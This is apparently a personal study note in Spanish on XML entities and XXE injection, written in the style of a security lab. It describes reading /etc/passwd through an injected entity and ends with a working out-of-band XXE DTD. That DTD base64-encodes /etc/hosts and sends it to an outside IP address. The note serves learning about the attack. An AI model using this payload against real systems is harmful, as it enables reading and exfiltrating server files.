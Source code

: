 tags #new
XML, siglas en inglés de eXtensible Markup Language, traducido como 'Lenguaje de Marcado Extensible' o 'Lenguaje de Marcas Extensible', es un metalenguaje que permite definir lenguajes de marcas desarrollado por el World Wide Web Consortium utilizado para almacenar datos en forma legible.
## Entidades
Las entidades son una forma de reñresentar un elemento de datos, sin referenciar a los datos como tal, todo ello en un documento XML, los tipos de datos son:
	*exrtan (XXE)* : están alojadas en un dtd externo
	*Predefinididas* :  son los dtd's internos    por ej: (&lt; &gt;)
	![[Pasted image 20240606090541.png]]
	Si metemos en un xtml un <!DOCTYPE foo [<!ENTITY myname "Tubi">]>
	estamos registrando la entidad como "tubi"
	![[Pasted image 20240606091410.png]]
	En este Burpsuite, la página toma lo que hay dentro de la etiqueta "&myName;" y esta reflejando la etiqueta que definismo en otra de estas como "ENTITY myname"
Ahora inyectamos el xxm Entity injection para que dumpeé el etc passwd:
![[Pasted image 20240606092030.png]]
Acá te muestra el output de una pero muchas veces no sucede y entre en juego las oob (out of band interaction) y acá entra en juego las external dtd
## XXE OOB 
Que son blind, podemos ejecutarla con este script 
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://172.27.94.214/?file=%file;'>">
%eval;
%exfil;
```